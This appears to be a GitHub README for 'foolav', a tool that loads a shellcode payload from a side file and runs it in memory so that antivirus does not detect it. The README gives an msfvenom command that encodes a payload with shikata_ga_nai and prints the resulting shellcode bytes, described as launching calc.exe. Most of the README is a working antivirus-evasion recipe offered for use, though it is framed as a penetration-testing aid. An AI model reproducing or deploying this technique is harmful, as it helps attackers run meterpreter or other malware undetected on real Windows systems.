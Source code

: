 # foolav

Executable compiled with this code is useful during penetration tests where there is a need to execute some payload (meterpreter maybe?) while being certain that it will not be detected by antivirus software. The only requirement is to be able to upload two files: `binary executable` and `payload file` into the same directory.

x86 binary will run on both x86 and x86_64 Windows systems. In case when payload is a meterpreter, you should have no issues when migrating x86 meterpreter to x86_64 processes.

## Usage steps

1. prepare one-line payload (x86), e.g.

```sh
# msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d\xff" -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" ; echo
```

2. save as [executable-name-without-exe-extension].mf in same directory as executable

payload running calc.exe generated using above command:

```   \xbb\x28\x30\x85\x5b\xd9\xf7\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x33\x83\xea\xfc\x31\x5a\x0e\x03\x72\x3e\x67\xae\x7e\xd6\xee\x51\x7e\x27\x91\xd8\x9b\x16\x83\xbf\xe8\x0b\x13\xcb\xbc\xa7\xd8\x99\x54\x33\xac\x35\x5b\xf4\x1b\x60\x52\x05\xaa\xac\x38\xc5\xac\x50\x42\x1a\x0f\x68\x8d\x6f\x4e\xad\xf3\x80\x02\x66\x78\x32\xb3\x03\x3c\x8f\xb2\xc3\x4b\xaf\xcc\x66\x8b\x44\x67\x68\xdb\xf5\xfc\x22\xc3\x7e\x5a\x93\xf2\x53\xb8\xef\xbd\xd8\x0b\x9b\x3c\x09\x42\x64\x0f\x75\x09\x5b\xa0\x78\x53\x9b\x06\x63\x26\xd7\x75\x1e\x31\x2c\x04\xc4\xb4\xb1\xae\x8f\x6f\x12\x4f\x43\xe9\xd1\x43\x28\x7d\xbd\x47\xaf\x52\xb5\x73\x24\x55\x1a\xf2\x7e\x72\xbe\x5f\x24\x1b\xe7\x05\x8b\x24\xf7\xe1\x74\x81\x73\x03\x60\xb3\xd9\x49\x77\x31\x64\x34\x77\x49\x67\x16\x10\x78\xec\xf9\x67\x85\x27\xbe\x88\x67\xe2\xca\x20\x3e\x67\x77\x2d\xc1\x5d\xbb\x48\x42\x54\x43\xaf\x5a\x1d\x46\xeb\xdc\xcd\x3a\x64\x89\xf1\xe9\x85\x98\x91\x6c\x16\x40\x78\x0b\x9e\xe3\x84
```

3. once executable is run, payload will be parsed, loaded into separate thread and executed in memory

## License

[MIT License](https://github.com/twbs/bootstrap/blob/master/LICENSE)
